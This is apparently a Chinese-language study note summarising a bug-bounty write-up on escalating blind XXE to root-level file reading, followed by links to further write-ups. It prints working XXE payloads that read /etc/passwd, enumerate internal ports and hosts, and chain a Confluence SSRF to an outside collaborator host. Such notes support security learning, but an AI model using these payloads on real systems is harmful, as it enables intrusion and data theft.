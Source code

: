 ## 0x01 从blind xxe到root level 任意文件读取
https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/

姿势：
- xml格式的报错信息（404 not found)，引发作者的关注，于是有了下面的测试姿势
- 测试输入的xml是否被解析：修改请求方法为POST，添加头部字段：`Content-Type:application/xml`,添加无效的xml（body）；测试结果xml被成功解析，但是需要用户凭证才可以与接口进行交互。
    ```
    POST /interesting/ HTTP/1.1
    Host: server.company.com
    Content-Type: application/xml
    Content-Length: 30

    <xml version="abc" ?>
    <Doc/>
    ```
- 测试是否可以带外传输：**任何情况下，都可以输入DOCTYPE测试是否可以引入外部实体** ,输入下面的payload，利用burpcollaborator，观察是否能得到http的请求响应；测试结果为500，有DNS解析但无http请求响应（说明启动了服务器的http请求但是无法读取http响应）再次尝试其他端口，均无响应，猜测服务器防火墙成功的阻断了意外的传出流量（so 意外的传出流量被防火墙阻断，那么可以测试一下内部流量是否也被阻断）
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://59c99fu65h6mqfmhf5agv1aptgz6nv.burpcollaborator.net/x"> %ext;
    ]>
    <r></r>
    ```
- blind xxe的测试：输入下面的payload，得到的响应为文档格式错误, 即payload被成功解析，但由于/etc/passwd不符合DTD，故报错，于是测试成功，存在blind xxe
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "file:///etc/passwd"> %ext; // 用此payload测试文件是否存在    
    <!ENTITY % ext SYSTEM "http://localhost:22/"> %ext; // 用此payload枚举端口、内部服务
    <!ENTITY % ext SYSTEM "gopher://localhost/"> %ext; ]> // 测试服务器所支持的协议gopher、ftp、jar、scp等

    ]>
    <r></r>
    ```
- 查阅相关的报错信息，猜测服务器上运行的xml解析器为 Java’s SAX Parser
- github上挖掘到的一些内部资源如：然后测试是否可以访问内部网络资源
    ```xml
    wiki.company.internal
    jira.company.internal
    confluence.company.internal

    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://wiki.company.internal/"> %ext; // 测试是否可以访问内部资源
    ]>
    <r></r>
    ```

- 未经过滤的内部网络流量如何被路由到外部？找到某个主机（上的web应用程序）可以起到一个类似代理的功能，将流量转发到外网，之后大佬找到了confluence中应用程序存在的SSRF漏洞，利用此应用程序实现内部流量的转出(至burpcollaborator，从而避免被防火墙拦截)。既然可以传出内部流量，再结合xxe的经典带外传输的方法实现任意文件读取。
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://4hm888a6pb127f2kwu2gsek23t9jx8.burpcollaborator.net/x"> %ext;
    ]>
    <r></r>
    ```
崇拜之情溢于言表！ 


## others 
- ssrf: https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a
- [The best write-ups 2018 brought us](https://blog.intigriti.com/2018/12/30/ten-best-write-ups-of-2018/)
- XXE: https://findneo.github.io/180811-xxe-injection/ 挺全的

